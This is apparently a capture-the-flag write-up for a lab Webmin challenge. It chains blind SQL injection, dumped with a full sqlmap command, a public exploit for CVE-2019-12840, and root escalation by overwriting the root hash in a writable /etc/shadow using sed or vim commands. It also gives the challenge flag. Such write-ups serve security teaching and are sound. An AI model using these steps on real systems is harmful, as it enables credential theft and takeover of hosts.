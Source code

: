 Desciprtion: `As a manager, I implemented a feedback system in our Webmin application to gather customer feedback and improve our services. However, during its implementation, the system Exposed some sensitive information of our employees. Could you help me identify and address these Common Vulnerabilities?`

### 1. Analysis first web application
- We have a feedback form. Let's check the source code first.

![sourcehtml](sourcehtml.png)

- We can see some comments about SQL query, most likely this web application has SQL injection vuln.
- Do a simple test with `'`.

![firstpart](firstpart.png)
- That's great, looks like we're on the right track.
- Continue to try to dump table data from the database. It is Blind-SQL Injection, we can write a simple script to dump the data but we already have a tool - *sqlmap*. `(Try to make up a code that exploits the vulnerability to show that you are a pro or you will just be a script kiddie:)))`
- Here is sqlmap command:
```
sqlmap -u http://192.168.26.128:5000/api/check_username --method=POST --data '{"username":"admin"}' -p username --headers='Content-Type: application/json' --dump
```
- Output:

![dumpdata.png](dumpdata.png)
- Now we got credentials, let's go to Webmin.
After login, we got a notice that

 ![webmindashboard](webmindashboard.png)
 - Search vuln for that webapp with this version, and we got a CVE `[CVE-2019-12840](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12840)`
 - We already know that it has a CVE, and the next simple work is find a POC to exploit that CVE. (https://github.com/KrE80r/webmin_cve-2019-12840_poc)
 
![exploit.png](exploit.png)
- Look around, we got the 2nd part of the flag, but we are myuser, next step is become root.

![secondpart.png](secondpart.png)
- We have a hint that `Can you find my shadow ???` Maybe relate to /etc/shadow, let's check.

![shadowpermission.png](shadowpermission.png)
- We had read and write permission on `/etc/shadow`.
- In `shadow` file do not contain root password hash so we can not crack it, but we have write permission, try to make a password hash with `mkpasswd` then insert it into `shadow` file.
```
mkpasswd -m sha-512 new_password
```

![passwdhash.png](passwdhash.png)
Next step: insert that hash into shadow file between 2 first semicolon. The result wil be like this:
```
root:password_hash:.....
```
- Text editors are really stupid, we can use sed -i or vim -c to replace the text.
```
Example command:
sec -i 's/old_text/new_text/g' /etc/shadow
or
vim -c '%s/old_text/new_text/g' -c 'q' /etc/shadow
```
*Note: Remember to escape some special character in password hash like $*

![replacepasswdhash.png](replacepasswdhash.png)
- Next step is login into root with you password, so ez :))

![getroot.png](getroot.png)
- Final step, read the flag

![thirdpart.png](thirdpart.png)

```
Flag: FIA{$QL_!nj3ct10n_CVE_3xpl01t_@and_pr1v!l3g3_3scal@tion_1s_s0_fUn!}
```
